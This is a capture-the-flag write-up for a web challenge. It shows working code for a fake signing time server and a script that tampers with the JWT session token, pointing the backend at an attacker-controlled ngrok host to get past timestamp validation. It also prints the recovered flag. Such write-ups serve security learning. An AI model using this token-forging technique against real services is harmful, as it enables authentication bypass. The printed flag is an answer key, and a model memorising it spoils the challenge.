

## Time-Travel web challenge writeup 

When you visit the page , you are presented with a misleading button which obviously doesnt give you the flag


Once you inspect the page more , you will find a session cookie being generated,


If you try decoding it you will get to know that it is a jwt token and once you try to get the payload of the token 



We get to see the that a time server is being used and there are two time stamps generated

if we look over the source code we see that there is a post request being send to the validate endpoint 

Now we check app.py to see the validate endpoint to understand what is going on 

You can understand that it is fetching time from another external time server which is signing the timestamp which it is passing. It also has a /pubkey endpoint which gives us the ideae on how our time server should be  

This should give us the iea of the exploit which should be 

- Create your own time server which could generate your own public key, signatures, and  timestamps.  
- Modify the payload of the token  with the URL of this false time server, a new timestamp, and its corresponding signature. The backend  servers’ verfication algorithm would then verify it.
- The time server must return the exp time which must be a future time so that the validation works

```

from flask import Flask, jsonify, Response
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
import time

app = Flask(__name__)

key = ECC.generate(curve="p256")
pubkey = key.public_key().export_key(format="PEM")


@app.route("/pubkey", methods=["GET"])
def get_pubkey():
  
    response = Response(pubkey, mimetype="text/plain")
    response.headers["Access-Control-Allow-Origin"] = "*"
    return response


@app.route("/timestamp", methods=["GET"])
def get_timestamp():
  
    current_time = str(int(time.time()))
    exp_time = str(int(time.time()) + 100)  

    h = SHA256.new(current_time.encode("utf-8"))
    signer = DSS.new(key, "fips-186-3")
    signature = signer.sign(h)

    response_data = {
        "timestamp": current_time,
        "signature": signature.hex(),
        "exp": exp_time,
    }

    response = jsonify(response_data)
    response.headers["Access-Control-Allow-Origin"] = "*"
    return response


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5004)

```

Now have a script to generate the new jwt token with your new time server 

```

import requests
import jwt
import json
import time

def exploit_challenge(challenge_server, ngrok_url):
  
    
    try:
        challenge_response = requests.get(f"{challenge_server}/challenge")
        original_token = challenge_response.json()["token"]
    except Exception as e:
        print(f"Failed to get challenge token: {str(e)}")
        return
    
    try:
        payload = jwt.decode(original_token, options={"verify_signature": False})
        print("Original payload:")
        print(json.dumps(payload, indent=2))
        
        payload["timeserver"] = ngrok_url
        new_token = jwt.encode(payload, "", algorithm="HS256")
    except Exception as e:
        print(f"Failed to modify token: {str(e)}")
        return
    
    try:
        validation_response = requests.post(
            f"{challenge_server}/validate",
            json={"token": new_token},
            headers={"Content-Type": "application/json"}
        )
        
        if validation_response.status_code == 200:
            print(json.dumps(validation_response.json(), indent=2))
        else:
            print(validation_response.text)
            
    except Exception as e:
        print(f"[-] Error during validation: {str(e)}")
        return

if __name__ == "__main__":
    CHALLENGE_SERVER = "https://timetravel.ctf.prgy.in/"  
    NGROK_URL = "https://7260-14-139-162-2.ngrok-free.app"  
    
    exploit_challenge(CHALLENGE_SERVER, NGROK_URL)

```
Running this script gives us the flag 
```bash

{
  "flag": "p_ctf{man19ula71n8_t1me_is_n05_4lw4ys_4_g00d_1dea}",
  "message": "Token is valid"
}
```bash
